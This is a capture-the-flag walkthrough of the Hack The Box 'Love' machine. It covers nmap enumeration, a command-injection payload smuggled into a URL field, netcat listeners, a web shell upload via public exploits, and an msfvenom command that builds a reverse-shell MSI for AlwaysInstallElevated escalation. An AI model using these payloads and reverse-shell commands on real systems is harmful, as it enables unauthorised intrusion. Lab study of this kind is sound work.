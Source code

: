 ```yaml
---
title: "Love"
date: 2024-09-27
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "love", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Credentials

| Username | Password           | Hash | Source |
| -------- | ------------------ | ---- | ------ |
| admin    | @LoveIsInTheAir!!! |      |        |
 
## Enumeration

### Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2

|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a:2ba6:8ef4:7568:f99d:d6f4:aaa2:03b5
| SHA-1: 84ef:d922:a70a:6d9d:82b8:5bb3:d04f:066b:12f8:6e73

|_http-title: Not Found
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=9%D=7/21%Time=669CB9F8%P=x86_64-pc-linux-

```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/love11.png)

#### Web

![screenshot](/assets/images/love1.png)

http://staging.love.htb/

![screenshot](/assets/images/love2.png)

http://staging.love.htb/beta.php

![screenshot](/assets/images/love3.png)

#### Test for command injection

![screenshot](/assets/images/love7.png)

![screenshot](/assets/images/love6.png)

#### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![screenshot](/assets/images/love8.png)

#### /admin

http://10.10.10.239/Admin/

![screenshot](/assets/images/love9.png)

#### /plugins

http://10.10.10.239/plugins/

![screenshot](/assets/images/love10.png)

## Initial Access

>- Searching for `voting system` gives public exploit
- Using the public exploit gives initial shell as phoebe.

https://www.exploit-db.com/exploits/49843

![screenshot](/assets/images/love12.png)

http://10.10.10.239/admin

![screenshot](/assets/images/love13.png)

http://10.10.10.239/

![screenshot](/assets/images/love14.png)

-> doesn't work on this URL

![screenshot](/assets/images/love15.png)

https://www.exploit-db.com/exploits/49846

![screenshot](/assets/images/love16.png)

upload a shell

![screenshot](/assets/images/love17.png)

rev.ps1

![screenshot](/assets/images/love18.png)

![screenshot](/assets/images/love19.png)

PHP Ivan web shell

![screenshot](/assets/images/love20.png)

## Privilege Escalation

>- AlwaysInstallElevated

![screenshot](/assets/images/love21.png)

![screenshot](/assets/images/love22.png)

![screenshot](/assets/images/love23.png)

![screenshot](/assets/images/love24.png)

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

![screenshot](/assets/images/love25.png)

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![screenshot](/assets/images/love26.png)
